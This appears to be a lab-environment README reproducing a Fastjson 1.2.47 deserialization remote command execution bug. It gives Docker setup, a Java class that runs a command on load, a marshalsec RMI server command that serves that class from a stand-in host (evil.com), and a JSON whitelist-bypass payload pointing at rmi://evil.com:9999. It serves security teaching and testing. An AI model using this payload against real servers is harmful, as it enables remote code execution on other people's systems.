

# Fastjson 1.2.47 Deserialization Remote Command Execution

[中文版本(Chinese version)](README.zh-cn.md)

Fastjson is a JSON parser developed by Alibaba, known for its superior performance and widely used in Java projects across various companies. After version 1.2.24, Fastjson added a deserialization whitelist. However, in versions prior to 1.2.48, attackers could bypass the whitelist check using specially crafted JSON strings and successfully execute arbitrary commands.

References:

- <https://cert.360.cn/warning/detail?id=7240aeab581c6dc2c9c5350756079955>
- <https://www.freebuf.com/vuls/208339.html>

## Environment Setup

Execute the following command to start a Spring web project that uses Fastjson 1.2.45 as its default JSON parser:

```shell
docker compose up -d
```

After the server starts, visit `http://your-ip:8090` to see a JSON object returned. You can POST new JSON objects by changing the content-type to `application/json`, and the backend will use Fastjson to parse them.

## Vulnerability Reproduction

The target environment is `openjdk:8u102`, which doesn't have the `com.sun.jndi.rmi.object.trustURLCodebase` restriction. We can easily execute commands using RMI.

First, compile and upload the command execution code, such as `http://evil.com/TouchFile.class`:

```java
// javac TouchFile.java
import java.lang.Runtime;
import java.lang.Process;

public class TouchFile {
    static {
        try {
            Runtime rt = Runtime.getRuntime();
            String[] commands = {"touch", "/tmp/success"};
            Process pc = rt.exec(commands);
            pc.waitFor();
        } catch (Exception e) {
            // do nothing
        }
    }
}
```

Then, using the [marshalsec](https://github.com/mbechler/marshalsec) project, start an RMI server listening on port 9999 and specify loading the remote class `TouchFile.class`:

```shell
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://evil.com/#TouchFile" 9999
```

Send the payload to the target server:

```
{
    "a":{
        "@type":"java.lang.Class",
        "val":"com.sun.rowset.JdbcRowSetImpl"
    },
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"rmi://evil.com:9999/Exploit",
        "autoCommit":true
    }
}
```


As shown below, the command `touch /tmp/success` has been successfully executed:



For more exploitation methods, please refer to JNDI injection related knowledge.
